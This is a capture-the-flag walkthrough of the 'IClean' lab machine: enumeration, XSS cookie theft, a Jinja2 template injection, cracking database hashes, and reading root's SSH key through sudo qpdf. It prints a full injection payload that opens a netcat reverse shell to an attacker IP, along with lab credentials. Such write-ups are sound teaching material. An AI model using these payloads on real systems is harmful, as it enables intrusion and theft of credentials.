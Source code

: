 # IClean

<figure><img src="../../.gitbook/assets/IClean (1).png" alt=""><figcaption></figcaption></figure>

## Enumeration

```bash
Nmap scan report for iclean.htb (10.10.11.12)
Host is up (0.048s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.52 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=4/22%OT=22%CT=1%CU=36432%PV=Y%DS=2%DC=T%G=Y%TM=6626
OS:87C6%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)
OS:OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53C
OS:ST11NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
OS:ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%
OS:F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T
OS:5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=
OS:Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF
OS:=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40
OS:%CD=S)

Uptime guess: 39.418 days (since Thu Mar 14 01:51:02 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 110/tcp)
HOP RTT      ADDRESS
1   47.67 ms 10.10.14.1
2   48.32 ms iclean.htb (10.10.11.12)

NSE: Script Post-scanning.
Initiating NSE at 11:52
Completed NSE at 11:52, 0.00s elapsed
Initiating NSE at 11:52
Completed NSE at 11:52, 0.00s elapsed
Initiating NSE at 11:52
Completed NSE at 11:52, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.37 seconds
           Raw packets sent: 65963 (2.906MB) | Rcvd: 65699 (2.631MB)

```

### HTTP (80)

If we try to visit the `http://iclean.htb` page we're redirected to `http://capiclean.htb`:

<figure><img src="../../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

Add this FQDN to `/etc/hosts` and retry to navigate the webpage:

<figure><img src="../../.gitbook/assets/image (157).png" alt=""><figcaption></figcaption></figure>

At `/team` page we can have info disclosure about possible employee's names/usernames:

<figure><img src="../../.gitbook/assets/image (158).png" alt=""><figcaption></figcaption></figure>

We have also to analyze a login page with a form at `/login`:

<figure><img src="../../.gitbook/assets/image (160).png" alt=""><figcaption></figcaption></figure>

The directory listing using FFUF show us a `/dashboard` with a `302 - Redirect` to homepage and a `/server-status` with response code `403 - Forbidden`:

<figure><img src="../../.gitbook/assets/image (576).png" alt=""><figcaption></figcaption></figure>

There is also another interesting page `/quote` about a kind of page to request a quote:

<figure><img src="../../.gitbook/assets/image (577).png" alt=""><figcaption></figcaption></figure>

That send the POST request to `/sendMessage` endpoint:

<figure><img src="../../.gitbook/assets/image (578).png" alt=""><figcaption></figcaption></figure>

Intercepting the POST request in BurpSuite we obtain this one:

<figure><img src="../../.gitbook/assets/image (579).png" alt=""><figcaption></figcaption></figure>

## Exploitation (foothold)

If there is a contact form, it is possible that the submitted requests will be monitored by some site administrator user. We can see if the form is vulnerable to an XSS...

<figure><img src="../../.gitbook/assets/image (581).png" alt=""><figcaption></figcaption></figure>

Using the stealed cookie and Cookie-Editor Firefox Plugin we can now access the `/dashboard` page which previously returned a `403 - Forbidden`:

<figure><img src="../../.gitbook/assets/image (582).png" alt=""><figcaption></figcaption></figure>

As you can see, several features can be accessed including generating an invoice:

<figure><img src="../../.gitbook/assets/image (590).png" alt=""><figcaption></figcaption></figure>

Intercepting in BurpSuite:

<figure><img src="../../.gitbook/assets/image (589).png" alt=""><figcaption></figcaption></figure>

And some QR code to view it via the web:

<figure><img src="../../.gitbook/assets/image (591).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (592).png" alt=""><figcaption></figcaption></figure>

Then the backend return to us a QR Code link:

<figure><img src="../../.gitbook/assets/image (585).png" alt=""><figcaption></figcaption></figure>

Submitting the QR Code link:

<figure><img src="../../.gitbook/assets/image (593).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (594).png" alt=""><figcaption></figcaption></figure>

It appears that the fields entered within the invoice generation are not then rendered in the generated HTML:

<figure><img src="../../.gitbook/assets/image (586).png" alt=""><figcaption></figcaption></figure>

The QR Code that we see in Web-version invoice in right-bottom is represented as base64 encoded image as showed by BurpSuite and <mark style="color:yellow;">**seems to be the only one input reflected in the server’s response**</mark>:

<figure><img src="../../.gitbook/assets/image (595).png" alt=""><figcaption></figcaption></figure>

If we try to change the value of this parameter we see that the response change in consistent way...

<figure><img src="../../.gitbook/assets/image (597).png" alt=""><figcaption></figcaption></figure>

But things get interesting when we notice that by trying to inject template syntax, it is evaluated by the server:

<figure><img src="../../.gitbook/assets/image (596).png" alt=""><figcaption></figcaption></figure>

We have in this case a Server-Side Template Injection (SSTI). Considering that the backend language obtained from the previous enumeration step turns out to be Python it is likely that we are working with Jinja2 or Mako.

<figure><img src="../../.gitbook/assets/image (587).png" alt=""><figcaption></figcaption></figure>

The classic SSTI JInja2 exploit tecniques seems to not work, so searching on the Web i've found this [article](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/?source=post_page-----cfc46f351353--------------------------------) about bypassing restriction.&#x20;

After checking for python and its version and after trying different type of reverse shells:

<figure><img src="../../.gitbook/assets/image (588).png" alt=""><figcaption></figcaption></figure>

I've used the following POST body request:

{% code overflow="wrap" %}
```
invoice_id=&form_type=scannable_invoice&qr_link={{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/bash+-i+2>%261|nc+10.10.15.101+6060+>/tmp/f")|attr("read")()}}
```
{% endcode %}

And using the magic pwncat-cs finally we obtain a reverse shell:

<figure><img src="../../.gitbook/assets/image (598).png" alt=""><figcaption></figcaption></figure>

Inside the app.py file we find DB credentials (iclean:pxCsmnGLckUb):

<figure><img src="../../.gitbook/assets/image (599).png" alt=""><figcaption></figcaption></figure>

Viewing the /etc/passwd file, we have confirmation that there is a mysql server and a user named `consuela`:

<figure><img src="../../.gitbook/assets/image (600).png" alt=""><figcaption></figcaption></figure>

## Privilege escalation (user)

Enumerating and accessing mysql with the credentials found we see that there is a `user` table having 2 census users: `admin` and `consuela`

<figure><img src="../../.gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>

```
mysql> select * from users;
+----+----------+------------------------------------------------------------------+----------------------------------+
| id | username | password                                                         | role_id                          |
+----+----------+------------------------------------------------------------------+----------------------------------+
|  1 | admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 | 21232f297a57a5a743894a0e4a801fc3 |
|  2 | consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa | ee11cbb19052e40b07aac0ca060c23ee |
+----+----------+------------------------------------------------------------------+----------------------------------+
```

Try to cracking the admin password we will not obtain any result instead the consuela password is in our wordlist and so we obtain it:

<figure><img src="../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

Logging using SSH as `consuela` user, we obtain the user flag:

<figure><img src="../../.gitbook/assets/image (155).png" alt=""><figcaption></figcaption></figure>

## Privilege escalation (root)

As a first attempt we type the classic `sudo -l` to see what commands we are allowed to execute as root:

<figure><img src="../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

It would appear to be a [tool](https://github.com/qpdf/qpdf) for managing and creating/editing pdfs from the command line.

Searching GTFObins or the Internet, there appears to be no standard technique for privilege escalation exploiting this binary.

Analyzing in more detail the features offered by this tool the most interesting ones turn out to be the following:

<figure><img src="../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

The basic parameters to be used involve an input file and an output file. However, there is a `--empty` option that saves us from having to bring a dummy PDF file to the victim machine by using a blank PDF as input instead:

<figure><img src="../../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

There doesn't seem to be the ability to run commands so the fastest way turns out to be to read the root user's SSH private key and add to PDF as attachment, which is possible to do since we can run qpdf as administrative users.

Since we cannot view the file with a graphical PDF Viewer we have to use the option `--qdf`:

<figure><img src="../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

Analyzing the entire generated PDF we notice that the root SSH key has been added as an attachment and we can now use it to log in via SSH:

<figure><img src="../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>
